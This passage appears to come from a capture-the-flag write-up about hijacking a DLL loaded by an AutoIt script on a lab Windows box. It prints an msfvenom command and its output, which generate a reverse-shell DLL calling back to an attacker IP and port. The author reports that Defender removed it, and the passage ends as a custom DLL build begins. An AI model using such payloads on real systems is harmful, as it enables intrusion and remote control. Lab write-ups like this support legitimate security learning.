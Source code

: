 So if this AutoIt script is run, it's likely that this DLL will be
loaded.

#### msfvenom Fail

I don't expect an MSF generated reverse shell to connect back for a
couple reasons. First, Defender seems like it's enabled on this box, and
I would expect it to eat anything generated by MSF. Second, the Dll
would be loaded into the AutoIt process, which is blocked outbound by
the firewall.

Still, I'll give it a try anyway because it only takes a minute and if
I'm wrong, it would save a lot of time. I'll generate a Dll reverse
shell with `msfvenom`:



    oxdf@hacky$ msfvenom -p windows/x64/shell_reverse_tcp -f dll LHOST=10.10.14.6 LPORT=443 >
     rev.dll
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 460 bytes
    Final size of dll file: 8704 bytes



I'll upload this, and it seems to be there. However, when the scheduled
task runs, I don't get a callback, and the DLL is gone. This is almost
certainly defender removing it. A bit later, the original is back.

#### Generate DLL - ping

I've written my own DLL a few times before. The most detailed writeup I
have is from [HackBack](/htb-hackback.md#dll). I'll follow
the same process here. I'll open my Windows VM and Visual Studio. I'll
create a new project, filtering for C++ and selecting "Dynamic-Link
Library (DLL)" as the type:
